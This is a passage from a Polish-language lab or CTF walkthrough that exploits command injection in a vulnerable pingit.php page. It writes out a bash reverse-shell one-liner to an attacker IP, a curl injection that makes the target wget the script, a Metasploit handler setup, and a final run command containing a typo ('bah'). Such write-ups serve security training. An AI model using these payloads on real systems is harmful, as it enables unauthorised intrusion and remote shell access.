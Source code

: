 Załóżmy, że atakujemy z ip __172.16.1.10__, tworzymy więc prościutki backdoor, który będzie się łączył z naszą maszyną.
{: .text-justify}

```bash
# echo 'bash -i > /dev/tcp/172.16.1.10/4444 2>&1 0>&1' > rev-shell.sh
```

Na **Kali** przygotowujemy ładunek do wysyłki.
{: .text-justify}

```bash
# nc -v -l -p 80 < rev-shell.sh
```

Na następnej konsoli odpalamy nasz Code injection.
{: .text-justify}

```bash
# curl -X POST -d 'ip=;wget 172.16.1.10 -O /tmp/rev-shell.sh&submit=submit' http://172.16.1.238/pingit.php
```
Jak mniej więcej będzie taki komunikat poniżej, to powinno zacząć się pobieranie backdoora.
{: .text-justify}
```
172.16.1.238: inverse host lookup failed: Unknown host
connect to [172.16.1.10] from (UNKNOWN) [172.16.1.238] 32792
GET / HTTP/1.0
User-Agent: Wget/1.10.2 (Red Hat modified)
Accept: */*
Host: 172.16.1.10
Connection: Keep-Alive
```

Nie wiem czemu, ale trzeba ręcznie przerwać sesje, (tam gdzie ściągamy **Wget**em).
{: .text-justify}
sprawdźmy czy się plik wrzucił:
{: .text-justify}

```bash
# curl -X POST -d 'ip=;ls /tmp/&submit=submit' http://172.16.1.238/pingit.php
```

Plik jest, jednak zanim uruchomimy backdoora, użyjemy Metasploit do nasłuchiwania. Przechodzimy do konsoli z Metasploitem i wywolujemy
{: .text-justify}
```console
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/handler) > run -j
```

Następnie łączymy się z serwerem:
```bash
# curl -X POST -d 'ip=;bah /tmp/rev-shell.sh&submit=submit' http://172.16.1.238/pingit.php
```
